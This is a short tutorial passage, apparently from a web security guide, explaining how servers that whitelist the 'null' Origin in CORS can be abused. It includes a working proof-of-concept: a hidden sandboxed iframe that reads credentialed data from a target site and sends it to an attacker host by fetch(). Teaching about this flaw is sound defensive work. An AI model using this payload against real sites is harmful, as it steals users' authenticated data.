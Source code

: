The `Origin` HTTP header also supports the `null` value. Browsers might send such value in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` Origin to support local development. For example:
```http
GET /sensitiveData
Host: vulnerable-website.com
Origin: null
...
```
And the server will send a response like the following:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
...
```
In this situation, an attacker can use various tricks to generate a CORS request containing the `null` value in `Origin` header which will satisfy the whitelist. For example, an attacker can use a sandboxed `iframe` CORS request:
```html
<iframe style="display:none;" sandbox="allow-scripts" srcdoc="<script>
		var xhr = new XMLHttpRequest();
		var url = 'https://vulnerable-website.com';
		
		xhr.onreadystatechange = function () {
			if (xhr.readyState == XMLHttpRequest.DONE) {
				fetch('https://attacker-owned-website.com/log?key=' + xhr.responseText);
			};
		};
		xhr.open('GET', url + '/sensitiveData', true);
		xhr.withCredentials = true;
		xhr.send(null);
		</script>">
</iframe>
```